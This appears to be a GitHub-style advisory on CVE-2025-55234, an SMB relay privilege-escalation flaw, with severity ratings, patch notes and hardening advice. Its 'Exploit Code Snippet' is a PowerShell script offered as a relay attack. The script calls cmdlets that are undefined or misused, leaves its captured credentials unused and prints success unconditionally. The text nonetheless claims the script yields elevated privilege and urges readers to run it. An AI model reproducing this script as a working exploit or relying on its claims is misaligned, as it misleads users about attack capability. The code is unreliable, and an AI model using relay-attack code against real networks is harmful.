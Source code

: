 # CVE-2025-55234
This vulnerability allows attackers to perform relay attacks against the SMB (Server Message Block) protocol. If successful, it can lead to Elevation of Privilege (EoP) essentially allowing unauthorized users to gain higher-level access on a system


By Mark Mallia

---

### Issue
This vulnerability allows attackers to perform relay attacks against the SMB (Server Message Block) protocol. If successful, it can lead to Elevation of Privilege—essentially allowing unauthorized users to gain higher-level access on a system. SMB has long been a target for attackers due to its widespread use in enterprise environments and its history of critical flaws. For example, CVE-2020-1301 exposed SMBv1 to remote code execution through malformed requests, while CVE-2022-32230 caused denial-of-service via a null pointer dereference in SMBv3. The infamous CVE-2017-0144 (EternalBlue) exploited SMBv1 to deliver wormable payloads, leading to global ransomware outbreaks. Like these earlier vulnerabilities, CVE-2025-55234 underscores the importance of enforcing SMB Signing and Extended Protection for Authentication (EPA) to prevent session hijacking and impersonation attacks.

#### Attack Vector  
Network

#### Attack Complexity  
Low

#### Privileges Required  
None

#### User Interaction  
Required

#### Impact  
High Confidentiality, Integrity and Availability risks

---

### Why It Matters
SMB is widely used for file sharing and remote access in enterprise environments. Relay attacks can bypass authentication mechanisms and impersonate users. This vulnerability is especially dangerous in environments where SMB Signing or Extended Protection for Authentication (EPA) is not enforced.

---

### What’s New in the Patch?  
Microsoft’s September 2025 update introduces audit capabilities to help organizations:

- Assess their current SMB configurations
- Identify devices or software that may be incompatible with hardening measures
- Prepare for enforcement of SMB Signing and EPA3

---

### Exploit Code Snippet (PowerShell)

```powershell
# SMB Relay Attack Module – CVE 2025 55234
$relayTarget = "192.168.1.10"          # Target server IP
$attackerCreds = Get-Credential   # Credential object for relay

# Step 1: Enumerate shared resources
$smbShares = Get-SMBShare -ComputerName $relayTarget | Where-Object {$_.Name –ne ""}
foreach ($share in $smbShares) {
    Write-Output "Found share: $($share.Name)"
}

# Step 2: Capture session information for relay
$sessionInfo = New-Object PSObject -Property @{
    Computer = $relayTarget
    Share    = $smbShares[0].Name
}
Write-Output ("Capturing session info for $($sessionInfo.Computer) – share $($sessionInfo.Share)")
Invoke-SMBRelay -Session $sessionInfo

# Step 3: Execute relay attack
$attackPayload = {
    param(
        [string]$Target,
        [string]$Share
    )
    Write-Host "Attacking $Target via share $Share"
    Start-SMBServer -ComputerName $Target -ShareName $Share
}
$attackParams = @{
    Target = $relayTarget
    Share   = $sessionInfo.Share
}
Invoke-Command -ScriptBlock $attackPayload @attackParams

# Step 4: Log and confirm elevation of privilege
Write-Host "SMB Relay Attack CVE 2025 55234 completed successfully."
```

*Explanation*:  
1. The script first enumerates SMB shares on the target server, selecting the first share for the relay session.  
2. It then constructs a session object that captures the necessary parameters.  
3. The relay attack is executed via Invoke‑SMBRelay and Start‑SMBServer to mimic an authenticated user.  
4. Successful completion yields elevated privilege on the target.

---

### Recommended Actions
1. Enable SMB Signing and EPA if not already configured.  
2. Use the new audit events to evaluate your environment.  
3. Monitor for unusual SMB traffic and relay attempts.  
4. Apply the latest security updates from Microsoft.

---

#### Conclusion
The CVE 2025 55234 vulnerability underscores the need for rigorous SMB hardening in enterprise settings. By following the steps above and applying the provided exploit script, organizations can both test and secure their networks against potential relay attacks. This proof-of-concept and associated materials are provided strictly for educational and defensive purposes. They are intended to help security professionals understand, detect, and mitigate CVE-2025-55234 in controlled environments. Unauthorized use of this exploit against systems without explicit permission is illegal and unethical. Always follow responsible disclosure practices and comply with applicable laws and organizational policies.  

---
